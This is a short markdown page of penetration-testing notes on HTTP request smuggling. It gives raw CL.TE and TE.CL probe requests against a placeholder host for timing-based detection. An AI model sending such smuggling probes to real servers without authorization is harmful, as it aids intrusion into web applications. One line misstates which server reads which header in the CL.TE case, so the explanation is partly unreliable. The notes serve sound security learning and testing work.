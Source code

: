 ```yaml
---
title: "HTTP request smuggling"
weight: 12
---
```


<details><summary>General info</summary></details>

<details><summary>How do HTTP request smuggling vulnerabilities arise?</summary></details>

---

## Identification

> **Warning**:
> 
> * `Connection` header mustn't be set to `close`. Set it to `keep-alive`.
> * In early techniques you must use `HTTP/1.1` protocol, not `HTTP/2`. In burp change it using Inspector.


### CL.TE

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X
```

`Content-Length=4` -> `1` `\r` `\n` `A`

* The **front-end** server processes the initial chunk based on the Transfer-Encoding header, forwarding only part of the request while omitting the `X`.&#x20;
* After processing the first chunk, the **backend** server waits for the next one, causing a noticeable time delay.

### TE.CL

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```
